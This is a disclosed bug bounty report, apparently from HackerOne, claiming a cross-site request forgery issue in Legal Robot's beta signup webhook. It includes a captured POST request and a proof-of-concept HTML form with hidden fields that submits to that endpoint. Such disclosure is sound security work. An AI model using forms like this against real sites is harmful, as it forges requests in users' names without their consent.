 # CSRF Issue

## Report Details
- **Report ID**: 166231
- **URL**: https://hackerone.com/reports/166231
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-09-06T19:00:08.144Z
- **Disclosed**: 2017-08-27T18:16:52.933Z

## Reporter
- **Username**: hrj
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: legalrobot

## Vulnerability Information
Found CSRF Issue in https://www.legalrobot.com/beta/nl/

POST Request : 

POST /webhooks/beta HTTP/1.1
Host: app.legalrobot.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://www.legalrobot.com/beta/nl/
Content-Length: 107
origin: https://www.legalrobot.com
Connection: close

firstName=jdsfkds&lastName=dskfdsj&position=sdkdsj&company=skdjf&email=heeraj123%40gmail.com&language=Dutch


Attacker can implement a form such as the below one for intiating attack:
<body>
    <form action="https://app.legalrobot.com/webhooks/beta" method="POST">
      <input type="hidden" name="firstName" value="jdsfkds" />
      <input type="hidden" name="lastName" value="dskfdsj" />
      <input type="hidden" name="position" value="sdkdsj" />
      <input type="hidden" name="company" value="skdjf" />
      <input type="hidden" name="email" value="heeraj123&#64;gmail&#46;com" />
      <input type="hidden" name="language" value="Dutch" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

Reference:
https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)

## Attachments
No attachments
